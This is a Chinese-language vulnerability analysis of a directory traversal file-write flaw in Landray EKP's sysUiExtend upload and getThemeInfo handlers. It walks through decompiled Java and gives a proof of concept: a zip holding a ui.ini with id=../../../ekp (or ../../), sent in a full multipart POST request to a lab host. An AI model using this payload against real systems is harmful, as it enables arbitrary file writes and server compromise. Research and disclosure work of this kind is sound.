

路由如下
/sys/ui/sys_ui_extend/sysUiExtend.do?method=upload
漏洞分析
根据路由可定位至
com.landray.kmss.sys.ui.service.SysUiExtendService
对应的方法为 upload 方法。
public void upload(SysUiExtendForm xform, RequestContext requestInfo) throws Exception {
HttpServletRequest request = requestInfo.getRequest();
JSONObject jsonInfo = null;
FormFile file = xform.getFile();
if (file != null) {
jsonInfo = this.checkExtend(xform.getFile()); // [1]首先从请求中获取文件内容 [1]，并交给 checkExtend 方法检查，
private JSONObject checkExtend(String fileName, InputStream is) throws Exception {
JSONObject resultObj = new JSONObject();
String ext = FilenameUtils.getExtension(fileName);
if (StringUtil.isNull(ext)) {
throw new Exception(ResourceUtil.getString("ui.help.luiext.selfile", "sys-ui"));
} else if (!ext.equals("zip")) { // [2] 检查后缀
throw new Exception(ResourceUtil.getString("ui.help.luiext.upload.fileType", "sys-ui"));
} else {
String folderPath = System.getProperty("java.io.tmpdir");
if (!folderPath.endsWith("/") && !folderPath.endsWith("\\")) {
folderPath = folderPath + "/";
}
String folderName = IDGenerator.generateID();
folderPath = folderPath + folderName;
File zipFile = new File(folderPath + ".zip");
FileOutputStream output = null;
try {
output = new FileOutputStream(zipFile);
IOUtils.copy(is, output);
output.close();
ZipUtil.unZip(zipFile, folderPath); // [3] 解压文件，会检查是否有目录穿越
File iniFile = new File(folderPath + "/ui.ini");
if (!iniFile.exists()) {
throw new Exception(ResourceUtil.getString("ui.help.luiext.upload.file.notExists", "sys-ui"));
}
Map<String, String> map = IniUtil.loadIniFile(iniFile);
String extendId = (String)map.get("id");
String extendName = (String)map.get("name");
if (StringUtil.isNull(extendId)) {
throw new Exception(ResourceUtil.getString("ui.help.luiext.upload.id.notExists", "sys-ui"));
}
resultObj.put("extendId", extendId);
resultObj.put("extendName", extendName);
resultObj.put("folderName", folderName);
if (map.containsKey("thumb")) {
resultObj.put("thumbnail", map.get("thumb"));
}
} catch (Exception var22) {
throw var22;
} finally {
try {
zipFile.delete();
} catch (Exception var21) {
}
try {
output.close();
} catch (Exception var20) {
}
}
return resultObj;
}
}这个方法挺有意思的，第一次看的时候发现会检查上传的压缩包文件 [2]，并且 [3] 中对压缩包进行解压时会检查是否会产生目录穿越。
解压方法如下 com.landray.kmss.km.imeeting.util.ZipUtil#unzip，
public static void unZip(File zipFile, String destination) throws IOException {
// ...
try {
while(en.hasMoreElements()) {
entry = (ZipEntry)en.nextElement();
if (!entry.getName().contains("..\\") && !entry.getName().contains("../")) {看到这对时候以为没发利用了。
但是回过头看 checkExtend，在解压后会读取压缩包中的 ui.ini 文件，并将其中的 id 和 name 赋值给返回值 resultObj
File iniFile = new File(folderPath + "/ui.ini");
Map<String, String> map = IniUtil.loadIniFile(iniFile);
String extendId = (String)map.get("id");
String extendName = (String)map.get("name");
resultObj.put("extendId", extendId);
resultObj.put("extendName", extendName);
resultObj.put("folderName", folderName);而在 upload 方法中，会根据返回值的 extendId 保存压缩包中的内容至指定目录。
String extendId = jsonInfo.getString("extendId");
String extendName = jsonInfo.getString("extendName");
String folderName = jsonInfo.getString("folderName");
boolean isExists = this.isExistsExtend(extendId);
if (isExists) {
String nameText = " " + extendId + "（" + extendName + "）";
String errorMessage = ResourceUtil.getString("ui.help.luiext.upload.exist.replace", "sys-ui", null, nameText);
request.setAttribute("errorMessage", errorMessage);
request.setAttribute("extendId", extendId);
request.setAttribute("folderName", folderName);
} else {
// 若不存在则保存
this.saveExtend(extendId, folderName);
if (!ThemeUtil.isNotMerge) {
ThemeUtil.mergeAllTheme(request.getContextPath());
}
request.setAttribute("successMessage", ResourceUtil.getString("ui.help.luiext.upload.success", "sys-ui"));
}而保存的位置确是由 extendId 确定的。
public void saveExtend(String extendId, String folderName) throws Exception {
String folderPath = System.getProperty("java.io.tmpdir");
if (!folderPath.endsWith("/") && !folderPath.endsWith("\\")) {
folderPath = folderPath + "/";
}
folderPath = folderPath + folderName;
File extendFolder = new File(ResourceUtil.KMSS_RESOURCE_PATH + "/" + "ui-ext" + "/" + extendId);
FileUtils.copyDirectory(new File(folderPath), extendFolder);
ResourceCacheListener.updateResourceCache();
}所以到这里目标就很简单了，虽然不能直接通过压缩包进行目录穿越，但是可以在压缩包中放入一个 ui.ini 文件，其中 id 字段指定要目录穿越的位置。
压缩包解压后存放位置
从 upload 中的相关代码可知压缩包解压后存放目录为 System.getProperty("java.io.tmpdir") + 随机字符串(IDGenerator.generateID())。
String folderPath = System.getProperty("java.io.tmpdir");
if (!folderPath.endsWith("/") && !folderPath.endsWith("\\")) {
folderPath = folderPath + "/";
}
String folderName = IDGenerator.generateID();
folderPath = folderPath + folderName;从代码上看，压缩包解压后存放在哪里，并不重要。
目录穿越的起点
ResourceUtil.KMSS_RESOURCE_PATH + "/" + "ui-ext" + "/" + extendIdKMSS_RESOURCE_PATH 才是需要关注的重点，它的值由安装时的配置决定，本机测试时所在目录为 C:\Ekp\kmss。
Poc
假设 KMSS_RESOURCE_PATH 为 C:\Ekp\kmss\resource
下面构造一个 ui.ini 文件
id=../../../ekp发送如下请求
POST /ekp/sys/ui/sys_ui_extend/sysUiExtend.do?method=upload HTTP/1.1
Host: 10.37.129.3:8080
Accept: application/json, text/javascript, */*; q=0.01
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Length: 498
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8Gi3f63ozQb3hai9
Cookie: JSESSIONID=2909AF801BF57FC2C0A8145B6EF34C99; LRToken=84e3da6d5adc9b1f787e0ad14d9a33729ad067218e6d43c643dd72407997c4f903a57f23de4fb2559f8b5a566709cb94e154c5c2cbfe0a4b06f3b60974d567b9aee4cb5ac37b801478fd944a964c426c20cfad6d0f72ec9811e358fbbb2bbddc007029c8d9f885e41e4ae4a37e0a42b922ed20c94a1a73e078b343d02a42e293
Origin: http://10.37.129.3:8080
Referer: http://10.37.129.3:8080/ekp/sys/ui/help/lui-ext/upload.jsp
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
------WebKitFormBoundary8Gi3f63ozQb3hai9
Content-Disposition: form-data; name="file"; filename="poc.zip"
Content-Type: application/zip
...
------WebKitFormBoundary8Gi3f63ozQb3hai9--成功后在 ekp 目录会有一个 1.txt 文件

其它方式
除了 upload 方法，还有一个方法 getThemeInfo 可以实现相同的目的
public ActionForward getThemeInfo(ActionMapping mapping, ActionForm form, HttpServletRequest request, HttpServletResponse response) throws Exception {
response.setCharacterEncoding("UTF-8");
JSONObject rtnJson = new JSONObject();
try {
SysUiExtendForm mainForm = (SysUiExtendForm)form;
JSONObject jsonInfo = this.getSysUiExtendService().checkExtend(mainForm.getFile()); // [4] 检查压缩包
String extendId = jsonInfo.getString("extendId");
jsonInfo.getString("extendName");
String folderName = jsonInfo.getString("folderName");
String thumbnail = jsonInfo.getString("thumbnail");
String folderPath = System.getProperty("java.io.tmpdir");
if (!folderPath.endsWith("/") && !folderPath.endsWith("\\")) {
folderPath = folderPath + "/";
}
folderPath = folderPath + folderName;
File appThemeFolder = new File(this.getAppFolder(extendId));
FileUtils.copyDirectory(new File(folderPath), appThemeFolder); // [5] 复制到指定目录此方法中拷贝路径略有不同，查看 this.getAppFolder(extendId)
private String getAppFolder(String extendId) {
return ConfigLocationsUtil.getWebContentPath() + "/" + "resource/ui-ext" + "/" + extendId;
}目的路径为 ConfigLocationsUtil.getWebContentPath() + "/" + "resource/ui-ext" + "/" + extendId，这一点和 upload 方法是不同的，ConfigLocationsUtil.getWebContentPath() 的值就是 web 应用的部署路径，在这里是 C:\Ekp\ekp，此时 ui.ini 文件构造如下
id=../../
此外还有一个方法 replaceExtend，这里不赘述了。
public void replaceExtend(ActionMapping mapping, ActionForm form, HttpServletRequest request, HttpServletResponse response) throws Exception {
response.setCharacterEncoding("UTF-8");
if (UserOperHelper.allowLogOper("Base_UrlParam", null)) {
UserOperHelper.setModelNameAndModelDesc(
null, ResourceUtil.getString("sys-admin:home.nav.sysAdmin") + "(" + ResourceUtil.getString("sys-ui:ui.extend.replace") + ")"
);
}
String extendId = request.getParameter("extendId");
String folderName = request.getParameter("folderName");
if (StringUtil.isNotNull(extendId) && StringUtil.isNotNull(folderName)) {
try {
boolean bool = this.getSysUiExtendService().replaceExtend(request);
public boolean replaceExtend(HttpServletRequest request) throws Exception {
String extendId = request.getParameter("extendId");
String folderName = request.getParameter("folderName");
boolean bool = this.deleteExtendDirectory(extendId);
if (bool) {
this.saveExtend(extendId, folderName);
}
return bool;
}